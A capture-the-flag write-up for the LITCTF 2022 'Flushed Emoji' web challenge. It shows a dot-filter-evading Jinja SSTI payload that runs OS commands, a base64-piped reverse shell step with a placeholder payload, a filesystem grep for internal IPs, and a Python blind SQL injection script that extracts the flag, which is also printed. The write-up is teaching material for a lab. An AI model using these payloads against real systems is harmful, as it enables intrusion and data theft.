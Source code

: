 ```yaml
---
title: "Flushed Emoji challenge Writeup"
author: "0xMesbaha"
header:
  teaser: "/assets/images/CTFs/Flag.png"
tags: ["CTF", "ssti", "sql-injection"]
date: 2022-07-25T12:49:18+34:08
toc: true
draft: false
categories:
  - Web Exploitation 
ribbon: red
---
```


Lexington Informatics Tournament CTF CTF 2022 was held from the 22nd of July Until the 25th of the month , and we have participated under the team 0xcha0s, we have managed to solve multiple challenges. this challenge was solved less than 50 times in the 3 days and it was really nice.

<!--more-->

|             |                                               |
| ----------- | --------------------------------------------- |
| CTF name    | [LITCTF 2022](https://ctftime.org/event/1694) |
| challenge   | Flushed Emoji                                 |
| category    | web                                           |
| about       | SSTI , SQL injection                          |
| description | Flushed emojis are so cool!!                  |
| points      | 250                                           |
| team        | [0xCha0s](https://ctftime.org/team/168238)    |

# Discovery

we are given source code , so we can start from there

![image](/assets/images/CTFs/Flushed-emoji/20220724225849.png)

### main-server

we can start checking the `main-server/main.py` file , let's check the important parts :

- there is a login function which make sure the password doesn't contain a dot

```py
def login():
	if request.method == 'POST':
		username = request.form['username']
	     password = request.form['password']
	    if('.' in password):
		    return render_template_string("lmao no way you have . in your password LOL");
```

- if we have passed the dot check , our data will be sent as a post request to a remote server we don't know its ip address
- if it didn't return True our password will be processed with the `render_template_string()` function which is known to be a factor for SSTI exploitation

```py
    r = requests.post('[Other server IP]', json={"username": alphanumericalOnly(username),"password": alphanumericalOnly(password)});
    print(r.text);
    if(r.text == "True"):
      return render_template_string("OMG you are like so good at guessing our flag I am lowkey jealoussss.");
    return render_template_string("ok thank you for your info i have now sold your password (" + password + ") for 2 donuts :)");

  return render_template("index.html");
```

- As our input doesn't have proper filtration we can try to trigger SSTI .
- However most SSTI payloads contains dots , then after some searching we come across this awesome [research](https://hackmd.io/@Chivato/HyWsJ31dI)
- the research discussing the possibility of evading the dots filters by using the following approach :



```pug
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}
# to be
{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}
```  

now let's go test the web application :

![image](/assets/images/CTFs/Flushed-emoji/20220724231846.png)

Trying the above payload we have a valid SSTI exploit :

![image](/assets/images/CTFs/Flushed-emoji/20220724232147.png)

- now we can get a reverse shell so we can try our investigation without being concerned about dots filter. however any remote ip will have `.` of course.
- we can get around this by base64 encode our reverse shell payload then :

```bash
<base64_reverse_shell> | base64 -d | bash
```

and we are in

![image](/assets/images/CTFs/Flushed-emoji/20220724232716.png)

- if you look around in the machine you won't find any useful data , and alot of linux basic utilities are not there like `nano,vi,sudo,ssh,ssh-keygen,ss,netstat,ping,wget,curl,ifconfig,ip` and others
- our goal now is to get the IP of the remote server , we can simply search for all IPs in the machine with a simple grep regex command :

```bash
grep -rE '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' / 2>/dev/null
```

![image](/assets/images/CTFs/Flushed-emoji/20220724233151.png)

we find this IP , and as we can't get our ip address we can check the `/etc/hosts`

![image](/assets/images/CTFs/Flushed-emoji/20220724233311.png)

- so most probably the `172.24.0.8` is our next destination
- we can confirm that by trying to communicate with it using `python3` as it was installed on the machine :"

```py
>>> import requests
>>> r= requests.get("http://172.24.0.8:8080")
>>> print(r.text)

```

- if the communication party is not available an exception will be raised however it doesn't traceback an error.(we know port 8080 from upcoming code)

### data-server

now Let's check the `data-server/main.py` code

- here we can see the flag is inserted into the database at the data server and if we check the rest of the code we can't find any condition lead to make the flag be printed so keep `sql injeciton` in our mind

```py
con = sqlite3.connect('data.db', check_same_thread=False)

app = Flask(__name__)
flag = open("flag.txt").read();
cur = con.cursor()
cur.execute('''DROP TABLE IF EXISTS users''')
cur.execute('''CREATE TABLE users (username text, password text)''')
cur.execute(
    '''INSERT INTO users (username,password) VALUES ("flag","''' + flag + '''") '''
)
```

- we have an endpoint called `/runquery` which accepts JSON post data
- it will execute the statement without proper filters on password field
- we can know it will be error based SQLi from the True or False message errors

```py
@app.route('/runquery', methods=['POST'])
def runquery():
  request_data = request.get_json()
  username = request_data["username"];
  password = request_data["password"];
  print(password);
  cur.execute("SELECT * FROM users WHERE username='" + username + "' AND password='" + password + "'");
  rows = cur.fetchall()
  if(len(rows) > 0):
    return "True";
  return "False";
app.run(host='127.0.0.1',port=8080,debug=True)
```

- the exploitation environment is very restricted and we doesn't have many choices , we will build our script and run it in the python3 interactive terminal

## Exploitation

- Let's just confirm the server returns True or False :

```py
>>> import requests
>>> url  = "http://172.24.0.8:8080/runquery"
>>> data={'username':'test','password':'test'}
>>> r = requests.post(url,json=data)
>>> print(r.text)
False
```

- we will exploit this SQL statement

```sql
SELECT * FROM users WHERE username='<username>' AND password='<password>'
```

- we can try basic payload to alter the SQL execution :

```sql
junk' OR 1=1--
```

and it returns True indeed :

![image](/assets/images/CTFs/Flushed-emoji/20220724234904.png)

- in This CTF challenge we know the flag format so it is really helpful , we can use `LIKE` statement in our injection

```py
import requests,string
printable = string.ascii_lowercase + string.ascii_uppercase + "0123456789"+ "{}_*-+="
flag = "LITCTF{"
while not flag.endswith('}'):
    for c in printable:
        if "True" in requests.post(url = 'http://172.24.0.8:8080/runquery', json={'username': 'test','password': f'junk\' or password like \'{flag+c}%\'--'}).text:
            flag = flag+c
            print(flag)
            break
```

Running the Exploit we can get our flag :

![image](/assets/images/CTFs/Flushed-emoji/20220724235548.png)

```bash
LITCTF{flush3d_3m0ji_o_0}
```
